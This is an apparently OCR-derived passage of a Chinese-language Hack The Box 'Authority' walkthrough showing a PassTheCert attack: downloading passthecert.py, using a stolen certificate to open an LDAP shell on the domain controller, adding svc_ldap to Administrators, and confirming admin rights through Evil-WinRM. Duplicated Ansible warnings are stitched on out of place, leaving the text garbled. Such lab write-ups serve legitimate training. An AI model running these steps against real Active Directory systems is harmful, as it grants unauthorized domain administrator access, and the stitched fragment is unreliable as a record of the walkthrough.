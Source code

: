 下载 `passthecert.py`，按照文档执行后成功获取admin权限的 `ldap-shell`：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands

# add_user_to_group svc_ldap Administrators
Adding user: svc_ldap to group Administrators result: OK



*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available